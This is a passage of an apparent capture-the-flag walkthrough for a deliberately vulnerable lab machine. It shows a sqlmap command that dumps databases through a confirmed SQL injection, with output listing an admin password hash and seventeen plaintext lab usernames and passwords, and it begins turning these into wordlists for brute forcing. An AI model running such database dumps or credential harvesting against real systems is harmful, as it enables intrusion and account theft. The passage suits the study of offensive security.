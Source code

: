 After confirming that sqlinjection works , we will dump the tables using "sqlmap" , for that we need to capture the request in burp and save it to a file :

### SQLMAP Results

```bash
sqlmap -r req --dump --batch --dbs

[20:57:56] [INFO] fetching database names
available databases [3]:
[*] information_schema
[*] Staff
[*] users

Table: Users
[1 entry]
+--------+----------------------------------+----------+
| UserID | Password                         | Username |
+--------+----------------------------------+----------+
| 1      | 856f5de590ef37314e7c3bdf6f8a66dc | admin    |
+--------+----------------------------------+----------+

Database: users
Table: UserDetails
[17 entries]
+----+------------+---------------+---------------------+-----------+-----------+
| id | lastname   | password      | reg_date            | username  | firstname |
+----+------------+---------------+---------------------+-----------+-----------+
| 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
| 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
| 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
| 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
| 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
| 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
| 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
| 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
| 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
| 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
| 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
| 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
| 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
| 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
| 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
| 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
| 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
+----+------------+---------------+---------------------+-----------+-----------+

```

Using some BashFu on the big table to create wordlists for users and passwords :


Copy this table in a text file : creds.txt
